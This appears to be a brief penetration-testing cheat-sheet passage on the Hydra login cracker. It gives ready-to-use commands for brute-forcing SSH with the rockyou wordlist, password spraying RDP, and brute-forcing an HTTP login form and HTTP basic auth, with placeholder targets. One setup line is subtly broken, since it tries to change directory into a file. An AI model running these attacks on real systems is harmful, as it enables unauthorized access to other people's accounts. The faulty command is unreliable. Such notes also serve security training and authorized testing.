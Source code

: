 ### Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

